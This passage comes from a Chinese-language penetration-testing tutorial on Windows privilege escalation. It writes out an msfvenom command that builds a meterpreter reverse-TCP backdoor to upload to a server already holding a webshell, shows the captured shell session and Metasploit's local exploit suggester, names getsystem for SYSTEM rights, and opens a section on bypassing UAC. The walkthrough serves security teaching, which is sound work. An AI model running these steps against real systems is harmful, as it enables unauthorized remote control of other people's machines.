 然后生成回连后门程序 shell.exe，上传到目标服务器（已获得 webshell 的服务器）并运行：

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.133 LPORT=443 -f exe -o shell.exe

利用成功后获得系统 shell 权限：

```java
msf5 exploit(multi/handler) > exploit
[*] Started reverse TCP handler on 192.168.69.1:4444 
[*] Sending stage (176195 bytes) to 192.168.69.143
[*] Meterpreter session 1 opened (192.168.69.1:4444 -> 192.168.69.143:32552) at 2021-01-24 20:55:13 +080
meterpreter > shell
Process 2364 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����
C:\Users\Administrator\Desktop>whoami
whoami
god\administrator
C:\Users\Administrator\Desktop>exit
exit
meterpreter > getuid
Server username: GOD\Administrator
meterpreter > background
[*] Backgrounding session 1...
```

利用 post/multi/recon/local_exploit_suggester 模块去获取系统的未修复的漏洞，同时 metasploit 还有对应利用模块的漏洞：

```java
msf5 post(windows/gather/enum_patches) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf5 post(multi/recon/local_exploit_suggester) > exploit
```


<Image alt="图片16.png" src="https://s0.lgstatic.com/i/image6/M00/03/97/Cgp9HWAfY4GAQcMKAAL5SxNj3Q4699.png"/> 
  
图 16 利用 local_exploit_suggester 获取未修复且可利用的漏洞

根据上述信息可以知道，系统上还是不少漏洞可直接利用的，你可以挑选内核漏洞去利用。

不过这里还有个更简单的方法，就是利用 getsystem 命令去获取 SYSTEM 权限，如下图所示。


<Image alt="Drawing 16.png" src="https://s0.lgstatic.com/i/image6/M00/02/D2/Cgp9HWAeEaWAPN3CAABEa5FU48c948.png"/> 
  
图 17 利用 getsystem 提权

#### 2.绕过 UAC

即使是 Administrator 权限，有时在执行程序时会失败，相信你对下图的弹框不会陌生。这就是 UAC（用户账户控制），其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序损坏系统的效果。

